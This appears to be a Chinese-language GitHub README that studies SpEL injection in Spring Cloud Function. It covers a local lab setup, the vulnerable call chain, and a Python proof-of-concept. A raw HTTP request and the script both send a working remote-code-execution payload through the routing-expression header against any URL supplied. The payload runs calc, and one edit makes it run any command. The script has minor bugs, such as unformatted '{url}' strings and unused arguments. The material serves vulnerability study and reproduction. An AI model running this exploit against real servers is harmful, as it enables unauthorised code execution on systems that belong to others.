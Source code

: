 # SPeL-injection-study

共分为环境搭建及漏洞复现、原理学习、POC编写三部分

一、环境搭建

IDEA新建spring initializr

![图片](https://user-images.githubusercontent.com/90664154/164909353-8e59c6c2-b38d-4bdb-8dcf-251abfb2dde3.png)
![图片](https://user-images.githubusercontent.com/90664154/164909361-5067e7e9-1afa-477a-a581-d8811f7b4cb6.png)
![图片](https://user-images.githubusercontent.com/90664154/164909390-ef235ebe-5f69-4004-ac6a-14c1746dd062.png)
这里生成jar包
![图片](https://user-images.githubusercontent.com/90664154/164909399-52db580e-c85e-46aa-96aa-6aa7996a9393.png)

在终端安装jdk11

java -jar jojoSPeL-0.01-SNAPSHOT.jar  部署jar包

![图片](https://user-images.githubusercontent.com/90664154/164909424-929dd7da-900d-44bb-923c-d9d5b22f5f4a.png)

访问127.0.0.1:8080验证
![图片](https://user-images.githubusercontent.com/90664154/164909431-224e18e6-e58e-4613-abd9-84087e0db1f7.png)

发送POC验证
POST /functionRouter HTTP/1.1
Host: 127.0.0.1:8080
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("calc")
Content-Type: application/x-www-form-urlencoded
Content-Length: 4

jojo

![图片](https://user-images.githubusercontent.com/90664154/164909439-3dd2662e-1eb7-4231-8ec6-95a7f2a262eb.png)

二、漏洞分析
header头的spring.cloud.function.routing-expression参数调用链：
org.springframework.cloud.function.web.mvc.FunctionController中,
body-> processReques(RoutingFunction)-> FunctionInvocationWrapper.apply-> doApply-> RoutingFunction(apply)-> org.springframework.cloud.function.context.config.RoutingFunction(route)-> this.functionFromExpression()，最终执行，这其中的安全过滤函数不充分
![图片](https://user-images.githubusercontent.com/90664154/164909446-6745d62c-4204-4b51-8efe-f792e9893166.png)

三、Poc编写
# coding=UTF-8
import requests
import sys
import base64
import urllib3
urllib3.disable_warnings()

def calculator(url,ip,port):

    payload ='T(java.lang.Runtime).getRuntime().exec("calc")'

    data ='jojo'
    headers = {
        'spring.cloud.function.routing-expression':payload,
        'Accept-Encoding': 'gzip, deflate',
        'Accept': '*/*',
        'Accept-Language': 'en',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36',
        'Content-Type': 'application/x-www-form-urlencoded'
    }
    path = '/functionRouter'

    allurl = url + path
    try:
        req=requests.post(url=allurl,headers=headers,data=data,verify=False,timeout=3)
        code =req.status_code
        text = req.text
        rsp = '"error":"Internal Server Error"'

        if code == 500 and rsp in text:
            print('{url} 存在漏洞')
        else:
            print('{url} 不存在漏洞')

    except requests.exceptions.RequestException:
        print('[-]{url} 检测超时')
        pass
    except:
        print('[-]{url} 检测异常')
        pass
if __name__ == '__main__' :
    try:
        cmd1 =sys.argv[1]
        cmd2 =sys.argv[2]
        cmd3 =sys.argv[3]
        calculator(cmd1,cmd2,cmd3)
    except:
        print('python jojoSPel.py url ip port')
        pass
